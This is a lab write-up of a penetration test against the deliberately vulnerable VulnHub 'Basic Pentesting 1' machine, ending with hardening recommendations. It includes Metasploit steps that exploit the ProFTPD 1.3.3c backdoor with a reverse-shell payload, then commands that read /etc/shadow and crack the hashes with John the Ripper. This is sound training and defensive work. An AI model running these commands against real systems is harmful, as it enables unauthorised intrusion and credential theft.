# Basic Pentesting 1 – Network Security Assessment

A structured penetration-testing assessment of the **Basic Pentesting 1** vulnerable machine from [VulnHub](https://www.vulnhub.com/), conducted in an isolated VirtualBox lab environment. The assessment covers target preparation, network discovery, traffic observation, exploitation, and password cracking — culminating in full system compromise and a set of practical security recommendations.

---

## Table of Contents

1. [Lab Environment](#1-lab-environment)
2. [Phase 1 – Target Selection and Environment Preparation](#2-phase-1--target-selection-and-environment-preparation)
3. [Phase 2 – System Discovery](#3-phase-2--system-discovery)
4. [Phase 3 – Network Communication Observation](#4-phase-3--network-communication-observation)
5. [Phase 4 – Authentication Strength Evaluation](#5-phase-4--authentication-strength-evaluation)
6. [Phase 5 – Security Analysis and Recommendations](#6-phase-5--security-analysis-and-recommendations)

---

## 1. Lab Environment

| Role | Machine | IP Address |
|---|---|---|
| Attacker | Kali Linux | 192.168.10.3 |
| Target | Basic Pentesting 1 (vtcsec) | 192.168.10.4 |

Both machines run inside Oracle VirtualBox on an isolated **NAT Network** (`NatNetwork`, `192.168.10.0/24`, DHCP enabled) to prevent any traffic from reaching the external network.

**Tools used:** Nmap · WhatWeb · Nikto · Wireshark · Metasploit Framework · John the Ripper

---

## 2. Phase 1 – Target Selection and Environment Preparation

### 2.1 Target System

**Name and Source:** Basic Pentesting 1, downloaded from VulnHub — an intentionally vulnerable Ubuntu-based virtual machine designed for penetration-testing practice.

**Reason for Choosing:** The machine exposes multiple common services (FTP, SSH, Apache), contains an outdated exploitable service (ProFTPD 1.3.3c), and uses weak passwords. This allows the full assessment chain — discovery, exploitation, and password cracking — to be demonstrated using standard tools (Nmap, Metasploit, Wireshark, John the Ripper).

**Setup:** The `.ova` file was imported into Oracle VirtualBox. The VM booted correctly and displayed a Linux terminal with the hostname `vtcsec`.


*Figure 1: The Basic Pentesting 1 target VM (hostname vtcsec) running.*

### 2.2 Network Setup

**NAT Network Configuration:** A dedicated NAT Network (`NatNetwork`) was created in VirtualBox using the `192.168.10.0/24` range with DHCP enabled, isolating the lab from the host network.


*Figure 2: NAT Network configuration in VirtualBox (NatNetwork, 192.168.10.0/24, DHCP enabled).*

**IP Address Assignment:** Both VMs obtained their IP addresses via DHCP. Kali Linux was assigned `192.168.10.3` and the target was assigned `192.168.10.4`, confirmed with `ip a` and `netdiscover`.


*Figure 3: Kali Linux and the Basic Pentesting 1 target running simultaneously in VirtualBox.*


*Figure 4: Network discovery using netdiscover, identifying the active target host at 192.168.10.4.*

**Communication Verification:** Connectivity was confirmed with `ping`. Successful replies with 0% packet loss confirmed that both systems communicate within the isolated network.


*Figure 5: Successful ping from Kali Linux to the target (192.168.10.4), confirming communication.*

### 2.3 Commands — Phase 1

See [`code/01-environment-setup.sh`](code/01-environment-setup.sh) for the full annotated script.

```bash
ip a
sudo netdiscover -i eth0 -r 192.168.10.0/24
ping -c 4 192.168.10.4
```

---

## 3. Phase 2 – System Discovery

The target was analysed from a network perspective — with no prior knowledge of its configuration — to identify open ports, running services, and insecure or outdated software.

### 3.1 Port and Service Scanning

A service and version detection scan (`nmap -sV`) revealed the following open ports:

| Port | Protocol | Service | Version |
|---|---|---|---|
| 21/tcp | FTP | ProFTPD | 1.3.3c |
| 22/tcp | SSH | OpenSSH | 7.2p2 (Ubuntu) |
| 80/tcp | HTTP | Apache httpd | 2.4.18 (Ubuntu) |


*Figure 6: Nmap service and version detection (nmap -sV).*

### 3.2 Web Service Identification

WhatWeb fingerprinted the web server and confirmed Apache 2.4.18 running on Ubuntu Linux.


*Figure 7: Technology fingerprinting using WhatWeb.*

### 3.3 Web Server Enumeration

Nikto reported that Apache 2.4.18 is outdated and that several HTTP security headers are missing, including `X-Content-Type-Options` and `Content-Security-Policy`.


*Figure 8: Web server enumeration using Nikto, reporting the outdated Apache version and missing security headers.*

### 3.4 Identified Weaknesses

- **ProFTPD 1.3.3c (High Risk):** an outdated FTP version containing a known command-execution backdoor.
- **Apache 2.4.18 (Outdated):** several versions behind the current release, exposing known vulnerabilities.
- **Unencrypted services:** FTP and HTTP transmit data — including credentials — in plain text.
- **Missing security headers:** increase exposure to client-side attacks such as MIME-sniffing.

### 3.5 Commands — Phase 2

See [`code/02-system-discovery.sh`](code/02-system-discovery.sh) for the full annotated script.

```bash
nmap -sV 192.168.10.4
whatweb http://192.168.10.4
nikto -h 192.168.10.4
```

---

## 4. Phase 3 – Network Communication Observation

Traffic between Kali Linux and the target was generated and captured using Wireshark to determine whether sensitive information is transmitted in plain text.

### 4.1 FTP Traffic Capture

An FTP login attempt was made to the target. Although the login was rejected, the credentials were still transmitted over the network. The Wireshark capture was filtered with the `ftp` display filter and the session was reassembled using **Follow → TCP Stream**, revealing the `USER` and `PASS` values in plain text.


*Figure 9: FTP login attempt to the target (ProFTPD 1.3.3c).*


*Figure 10: Wireshark Follow TCP Stream of the FTP session, showing USER and PASS transmitted in plain text.*

### 4.2 HTTP (WordPress) Traffic Capture

A hidden `/secret` directory discovered during enumeration contained a WordPress login page at `http://192.168.10.4/secret/wp-login.php`. A test login was submitted to generate HTTP POST traffic.


*Figure 11: WordPress login page of the target, accessed at /secret/wp-login.php.*

The Wireshark capture was filtered with `http.request.method == "POST"`. Inspection of the POST body showed the HTML form fields — `log=topu` and `pwd=ttest123` — transmitted as clear text.


*Figure 12: Captured HTTP POST request to /secret/wp-login.php.*


*Figure 13: Wireshark live capture showing the HTTP POST (application layer) carried over TCP (transport layer) between Kali (192.168.10.3) and the target (192.168.10.4).*

### 4.3 Observation Summary

The captured traffic confirms that both FTP (port 21) and HTTP (port 80) transmit credentials with no encryption. TCP provides reliable delivery, but neither protocol provides confidentiality, making every credential exchange visible to any observer on the network.

### 4.4 Commands — Phase 3

See [`code/03-network-traffic-observation.sh`](code/03-network-traffic-observation.sh) for the full annotated script.

```bash
# Map the target hostname so the WordPress site resolves
echo "192.168.10.4 vtcsec" | sudo tee -a /etc/hosts

# Launch Wireshark on eth0
wireshark &

# Generate FTP traffic (credentials sent in plain text even on failed login)
ftp 192.168.10.4
```

---

## 5. Phase 4 – Authentication Strength Evaluation

Password hash information was extracted from the target, transferred to Kali Linux, and cracked offline to demonstrate the risk of weak passwords.

### 5.1 Gaining Root Access

Root access was obtained by exploiting the outdated ProFTPD 1.3.3c service using the Metasploit module `exploit/unix/ftp/proftpd_133c_backdoor`. After setting `RHOSTS` to the target IP and configuring a reverse shell payload with `LHOST` pointing to Kali, the exploit opened a command shell session with root privileges.


*Figure 14: Loading and configuring the ProFTPD 1.3.3c backdoor exploit in Metasploit (RHOSTS set to the target).*


*Figure 15: Successful exploitation — a reverse command shell session opened on the target, and whoami confirmed root access.*

### 5.2 Extracting Account and Hash Information

As root, the account and password files were read from the target. `/etc/passwd` revealed that `marlinspike` (UID 1000) was the only normal user account; all others were non-login system accounts. `/etc/shadow` contained the corresponding SHA-512 password hashes.


*Figure 16: Contents of /etc/passwd read as root, showing the system accounts and the marlinspike user account.*


*Figure 17: Contents of /etc/shadow read as root, containing the hashed passwords.*

### 5.3 Transferring Files to Kali

The contents of `/etc/passwd` and `/etc/shadow` were copied from the target shell and saved as local files on Kali Linux (`passwd` and `shadow`) for offline analysis.


*Figure 18: The /etc/passwd contents saved to a local file on Kali Linux, showing the marlinspike account (UID 1000).*

### 5.4 Password Recovery

The two files were combined using `unshadow` and fed into John the Ripper. A wordlist attack using `rockyou.txt` did not recover the password; however, **single-crack mode** cracked it immediately by testing the username as the password.


*Figure 19: The marlinspike SHA-512 hash ($6$) and the John the Ripper wordlist attempt.*


*Figure 20: John the Ripper recovering the password in single mode: marlinspike : marlinspike (1 password hash cracked).*

**Recovered credentials:** Username: `marlinspike` — Password: `marlinspike`

### 5.5 Why the Password Was Weak

The recovered password was identical to the username — one of the weakest possible choices. It was so predictable that no wordlist was needed; John cracked it in single mode simply by testing the username as the password. This demonstrates that SHA-512 hashing provides no protection when the password itself is trivially guessable.

### 5.6 Commands — Phase 4

See [`code/04-authentication-evaluation.sh`](code/04-authentication-evaluation.sh) for the full annotated script.

```bash
# --- Gaining root access (run interactively in msfconsole) ---
msfconsole
# > search proftpd
# > use exploit/unix/ftp/proftpd_133c_backdoor
# > set RHOSTS 192.168.10.4
# > set payload cmd/unix/reverse
# > set LHOST 192.168.10.3
# > run

# --- On the target shell (as root) ---
# > whoami
# > cat /etc/passwd
# > cat /etc/shadow

# --- On Kali: combine files and crack with John the Ripper ---
unshadow passwd shadow > crackme.txt
john --wordlist=/usr/share/wordlists/rockyou.txt crackme.txt
john --single crackme.txt
john --show crackme.txt
```

---

## 6. Phase 5 – Security Analysis and Recommendations

### 6.1 Identified Weaknesses and Countermeasures

| # | Weakness | Why It Exists | Countermeasure |
|---|---|---|---|
| 1 | Outdated FTP service with a backdoor (ProFTPD 1.3.3c) | Unpatched, known-vulnerable software left running | Patch/upgrade or remove FTP; apply security updates regularly |
| 2 | Credentials sent in plain text (FTP, HTTP) | Unencrypted protocols in use | Replace FTP with SFTP/FTPS; enforce HTTPS/TLS on the web app |
| 3 | Weak OS password cracked from /etc/shadow | No password policy; password equals username | Enforce a strong password policy; use salted slow hashing; enable MFA |
| 4 | Missing security headers; exposed /secret directory | Unhardened Apache configuration; poor access control | Add security headers; restrict sensitive paths; apply least privilege |

### 6.2 Explanation of Weaknesses

These issues span multiple layers of the system:

- **Application layer:** weak credentials and an exposed admin interface (`/secret/wp-login.php`).
- **Network layer:** unencrypted FTP and HTTP transmitting credentials in plain text.
- **System layer:** outdated, unpatched software (ProFTPD 1.3.3c, Apache 2.4.18).

Together they enabled a complete attack chain: **discovery → outdated ProFTPD → Metasploit backdoor → root → extracted /etc/shadow → offline password crack**. This illustrates how several smaller weaknesses can combine into a full system compromise.

### 6.3 Recommended Countermeasures

- **Authentication:** enforce a strong password policy (no username-as-password), change all default credentials, implement account lockout/rate-limiting, and enable Multi-Factor Authentication (MFA).
- **Encryption:** replace FTP with SFTP or FTPS, and serve the web application over HTTPS/TLS with a valid certificate, redirecting all HTTP traffic to HTTPS.
- **Patching:** upgrade or remove the vulnerable ProFTPD 1.3.3c service, and update Apache, WordPress, and the operating system regularly.
